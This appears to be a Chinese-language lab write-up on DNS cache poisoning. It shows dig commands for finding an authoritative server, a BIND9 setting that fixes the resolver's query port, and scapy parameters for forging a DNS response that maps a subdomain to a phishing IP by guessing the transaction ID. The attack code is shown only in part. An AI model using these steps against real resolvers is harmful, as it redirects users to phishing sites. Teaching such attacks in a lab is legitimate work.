



## 实验一

#### 1. 在攻击者主机上，查询imool.net权威域名服务器地址，确定攻击脚本需用到的权威域名服务器源IP。

```shell
dig NS dnslab.imool.net
dig ns1.imool.net
```





#### 2. 在本地域名服务器机器上，修改本地域名服务器配置，将BIND9随机化端口设置为固定端口，并重新启动BIND9。

```shell
vi /etc/bind/named.conf.options
query-source port 10001; #该端口号可设置为超过1024的、没有被系统服务占用的任意值
systemctl restart bind9
```



#### 3. 在攻击者主机上，使用scapy编写代码，实现对DNS 响应报文的伪造。重点关注以下参数：

```shell
victim_subdomain = "aaa.imool.net" #要攻击的imool.net子域名
fake_ip = "192.168.4.100" #将imool.net子域名解析到钓鱼网站的IP
authoritative_ip ="60.122.0.1" #在步骤1中获取到的权威域名服务器ip作为源地址
localdns_ip = "192.168.3.53" #要污染的本地域名服务器的IP
authoritative_port= 53 #权威域名服务器的端口，DNS默认为53端口
localdns_port= 10001 #步骤2设置的固定端口
fake_rr = DNSRR(rrname=victim_subdomain, type=1, ttl=10, rdata=fake_ip) #设定一个较大ttl值能增加虚假缓存的保留时间
```

#### 4. 猜测DNS响应报文中的TXID字段。

由于本地域名服务器向imool.net权威域名服务器发出的DNS查询报文中的TXID未知，其他参数已在前面步骤中获得，这里对TXID进行**碰撞猜测**。使用猜测的TXID构造DNS响应报文。主要部分代码如下：

```
dns_layer = DNS(id=？, qr=1, aa=1, qd=DNSQR(qname=victim_domain), ancount=1,an=fake_rr)  #id代表TXID
```